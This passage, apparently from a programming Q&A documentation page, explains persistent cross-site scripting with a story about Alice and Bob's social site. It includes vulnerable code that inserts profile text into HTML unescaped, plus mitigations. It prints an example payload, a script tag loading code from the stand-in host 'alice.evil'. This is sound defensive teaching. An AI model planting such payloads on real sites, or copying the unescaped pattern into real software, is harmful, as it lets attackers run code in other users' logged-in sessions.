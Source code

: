 
# Mitigation:

1. Escape all angle brackets in searches before returning the search term when no results are found.
2. Don't return the search term when no results are found.
3. **Add a [Content Security Policy](https://stackoverflow.com/q/30280370/6560716) that refuses to load active content from other domains**

  [1]: https://i.stack.imgur.com/CfBYJ.png

## Persistent Cross-site scripting (XSS)
Let's say that Bob owns a social website that allows users to personalize their profiles.

Alice goes to Bob's website, creates an account, and goes to her profile settings. She sets her profile description to `I'm actually too lazy to write something here.`

When her friends view her profile, this code gets run on the server:

    if(viewedPerson.profile.description){
        page += "<div>" + viewedPerson.profile.description + "</div>";
    }else{
        page += "<div>This person doesn't have a profile description.</div>";
    }

Resulting in this HTML:

    <div>I'm actually too lazy to write something here.</div>

Than Alice sets her profile description to `<b>I like HTML</b>`. When she visits her profile, instead of seeing 

> &lt;b>I like HTML&lt;/b>

she sees

> <b>I like HTML</b>

Then Alice sets her profile to 

    <script src = "https://alice.evil/profile_xss.js"></script>I'm actually too lazy to write something here.

Whenever someone visits her profile, they get Alice's script run on Bob's website while logged on as their account.

# Mitigation

1. Escape angle brackets in profile descriptions, etc.
2. Store profile descriptions in a plain text file that is then fetched with a script that adds the description via `.innerText`
3. **Add a [Content Security Policy](https://stackoverflow.com/q/30280370/6560716) that refuses to load active content from other domains**

## Persistent Cross-site scripting from JavaScript string literals
Let's say that Bob owns a site that lets you post public messages.
